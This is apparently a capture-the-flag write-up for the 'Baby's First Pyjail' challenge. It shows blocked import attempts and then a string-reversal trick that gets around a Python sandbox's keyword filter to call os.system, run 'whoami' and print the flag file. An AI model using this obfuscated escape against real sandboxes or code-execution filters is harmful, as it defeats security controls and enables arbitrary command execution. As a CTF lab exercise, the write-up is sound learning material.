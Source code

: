 # Baby's First Pyjail

![Alt text](<Web capture_15-1-2024_204525_play.uoftctf.org.jpeg>)

in this challenge we don't have the source code so let's guess.

first i tried basic instructions

```python
import os # return "try harder"
import sys # return "try harder"
..
```

it seems we can not use import lets try something else

```python
__import__('os').system('whoami'); # return "try harder
```
```python
exec('Your Input Here', {'__builtins__': None, 'print':print}); # return "try harder
```
lets try:

```python
dir(__builtins__) # return "try harder
```
nothing worked after few tries i tried:

```python
getattr(getattr(__builtins__,'__tropmi__'[::-1])('so'[::-1]),'metsys'[::-1])('whoami');
```
and it returns `ctfuser`

Now we need to cat the flag
```python
getattr(getattr(__builtins__,'__tropmi__'[::-1])('so'[::-1]),'metsys'[::-1])('cat flag');
```
and we got the flag `uoftctf{you_got_out_of_jail_free}`

![Alt text](Capture.PNG)
